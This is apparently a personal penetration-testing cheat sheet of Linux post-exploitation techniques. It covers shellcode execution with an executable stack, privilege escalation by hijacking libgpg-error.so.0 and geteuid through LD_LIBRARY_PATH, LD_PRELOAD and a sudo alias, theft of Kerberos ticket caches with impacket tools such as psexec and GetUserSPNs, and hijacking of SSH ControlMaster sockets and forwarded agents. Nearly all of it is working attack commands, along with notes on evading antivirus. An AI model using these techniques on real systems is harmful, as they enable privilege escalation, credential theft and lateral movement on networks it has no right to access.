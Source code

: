 * Linux AV is bad with custom c binarys

## Shellcode execute
```
int (*ret)() = (int(*)())buf;
ret();
```
```
gcc -o example example.c -z execstack
```

## PE
* If there is auto task running with sudo, try hijacking
* may not works depends on secure path setting
* TODO: test cross compilation
* TODO: msf shell with\without encoder
* Worked: normal without encoder + on target


### libgpg-error.so.0
```
export LD_LIBRARY_PATH=[path to libgpg-error.so.0's folder]
readelf -s --wide /lib/x86_64-linux-gnu/libgpg-error.so.0 | grep FUNC | grep GPG_ERROR | awk '{print "int",$8}' | sed 's/@@GPG_ERROR_1.0/;/g'
readelf -s --wide /lib/x86_64-linux-gnu/libgpg-error.so.0 | grep FUNC | grep GPG_ERROR | awk '{print $8}' | sed 's/@@GPG_ERROR_1.0/;/g'
```
```
gcc -Wall -fPIC -c -o test.o test.c
gcc -shared -Wl,--version-script [path to symbol map file ] -o libgpg-error.so.0 test.o
```
```
alias sudo="sudo LD_LIBRARY_PATH=[path to libgpg-error.so.0's folder]"
```


### geteuid
```
gcc -Wall -fPIC -z execstack -c -o test.o test.c
gcc -shared -o test.so test.o -ldl
export LD_PRELOAD=[path to so file]
```
* triger
```
cp /etc/passwd /tmp/test
```

## Kerberos
```
klist
kvno cifs/dmzdc01.complyedge.com
sudo cp /tmp/krb5cc_75401103_hOg8VH /tmp/krb5cc_minenow
export KRB5CCNAME=/tmp/krb5cc_minenow
sudo apt install krb5-user
```
* below script can work with proxychain
```
/usr/share/doc/python3-impacket/examples/GetADUsers.py
/usr/share/doc/python3-impacket/examples/GetUserSPNs.py
/usr/share/doc/python3-impacket/examples/psexec.py
```


## controlmaster
* Check ssh user config first  
* Check /.ssh/controlmaster/ if same user, ssh directly
* if with sudo
```
ssh -S /home/testuser/.ssh/controlmaster/testuser\@testbox\:22 testuser@testbox
```

## ForwardAgent
* Check ssh user config first
* Need also enable from target
* from kali
``` 
eval `ssh-agent` 
```

```
pstree -p testuser | grep ssh
cat /proc/[pid of bash]/environ
SSH_AUTH_SOCK=[...] ssh-add -l
SSH_AUTH_SOCK=[...] ssh testuser@testbox
```





